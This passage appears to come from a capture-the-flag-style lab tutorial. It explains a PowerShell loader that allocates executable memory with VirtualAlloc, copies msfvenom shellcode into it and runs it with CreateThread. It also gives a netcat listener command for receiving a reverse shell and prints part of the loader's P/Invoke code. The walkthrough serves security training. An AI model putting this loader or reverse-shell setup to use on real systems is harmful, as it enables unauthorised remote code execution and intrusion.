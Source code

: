 **Allocating Memory for the Shellcode**

The`VirtualAlloc` function then allocates a block of memory where the shellcode will be stored. The script uses the following arguments:

```ad-info
- `0` for the memory address, meaning that Windows will decide where to allocate the memory.
- `$size` for the size of the memory block, which is determined by the length of the shellcode.
- `0x3000` for the allocation type, which tells Windows to reserve and commit the memory.
- `0x40` for memory protection, the memory is readable and executable (necessary for executing shellcode).
```

After memory is allocated, the`Marshal.Copy` function copies the shellcode from the`$buf` array into the allocated memory address (`$addr`), preparing it for execution.

**Executing the Shellcode and Waiting for Completion**

Once the shellcode is stored in memory, the script calls the`CreateThread` function to execute the shellcode by creating a new thread. This thread is instructed to start execution from the memory address where the shellcode is located (`$addr`). The script then uses the`WaitForSingleObject` function, ensuring it waits for the shellcode execution to finish before continuing. This makes sure that the shellcode runs completely before the script ends its execution.

## Time for Some Action - Executing the Shellcode
---

On the AttackBox, execute the command`nc -nvlp 1111` to start a listener on port`1111` and wait for an incoming connection. This command opens port`1111` and listens for connections, allowing the AttackBox to receive data once a connection is made.


```shell
root@attackbox:~# nc -nvlp 1111 
Listening on [0.0.0.0] (family 0, port 1111) 
```


On the AttackBox, begin by navigating to the Desktop. Right-click on the`Desktop`, select`Create Document`, and then choose`Empty File`. Open this new file and paste the previously provided PowerShell script code into it. Look for the part labelled`SHELLCODE_PLACEHOLDER` and replace it with the shell code we previously created with`msfvenom`.


Once you've added the shellcode navigate to the attached VM, open PowerShell by clicking the PowerShell icon on the taskbar and paste parts of the code from the document you recently created to the Windows PowerShell window. For example, the first part to copy and paste is the block below:

```shell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
 [DllImport("kernel32")]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect); 
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
 public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds); 
}
```
